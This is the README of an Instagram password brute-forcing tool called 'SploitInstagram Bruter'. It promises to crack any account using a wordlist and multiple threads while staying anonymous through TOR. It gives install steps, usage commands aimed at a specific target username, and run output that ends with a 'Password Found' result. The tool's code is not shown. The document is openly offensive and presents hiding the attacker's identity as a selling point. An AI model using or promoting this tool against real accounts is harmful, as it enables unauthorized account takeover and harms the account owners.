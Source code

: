 ### SploitInstagram Bruter

-This program will brute force any Instagram account you send it its way. Just give it a target, a password list and a mode then press enter and forget about it. No need to worry about anonymity when using this program, its highest priority is your anonymity, it only attacks when your identity is hidden.

### Requirements

-   Python _v3.x.x_
-   Kali Linux (Latest Version)
-   TOR (Proxy)

### Install Dependencies

```
pip3 install -r requirements.txt
```

### Help

```
C:\Users\root\Desktop\SploitINSTA>python3 instagram.py -h
usage: instagram.py [-h] [-m MODE] username wordlist

positional arguments:
  username              email or username
  wordlist              password list

optional arguments:
  -h, --help            show this help message and exit
  -m MODE, --mode MODE  modes: 0 => 32 bots; 1 => 16 bots; 2 => 8 bots; 3 => 4 bots
```

### Usage

```
python3 instagram.py <username> <wordlist> -m <mode>
```

### Bots(Threads)

-   4 bots: 64 passwords at a time
-   8 bots: 128 passwords at a time
-   16 bots: 256 passwords at a time
-   32 bots: 512 passwords at a time

### Modes

-   0: 32 bots
-   1: 16 bots
-   2: 8 bots
-   3: 4 bots

### Chill mode

This mode uses only 4 bots, or 64 passwords at a time.

```
C:\Users\root\Desktop\Instagram>python3 instagram.py pabhkn password.lst -m 3
```

### Moderate mode 1

This mode uses 8 bots, or 128 passwords at a time.

```
C:\Users\root\Desktop\Instagram>python3 instagram.py pabhkn password.lst -m 2
```

### Moderate mode 2

This mode uses 16 bots, or 256 passwords at a time.

```
C:\Users\root\Desktop\Instagram>python3 instagram.py pabhkn password.lst -m 1
```

### Savage mode

This mode uses 32 bots, or 512 passwords at a time.

```
C:\Users\root\Desktop\Instagram>python3 instagram.py pabhkn password.lst -m 0
```

### If you don't specify a mode, then mode is set to 2

### Run

```
[-] Wordlist: password.lst
[-] Username: pabhkn
[-] Password: 272
[-] Complete: 45.51%
[-] Attempts: 228
[-] Browsers: 273
[-] Exists: True
```

### Stop

```
[-] Wordlist: password.lst
[-] Username: pabhkn
[-] Password: 9410673959
[-] Complete: 62.67%
[-] Attempts: 314
[-] Browsers: 185
[-] Exists: True

[!] Password Found
[+] Username: pabhkn
[+] Password: 9410673959
```

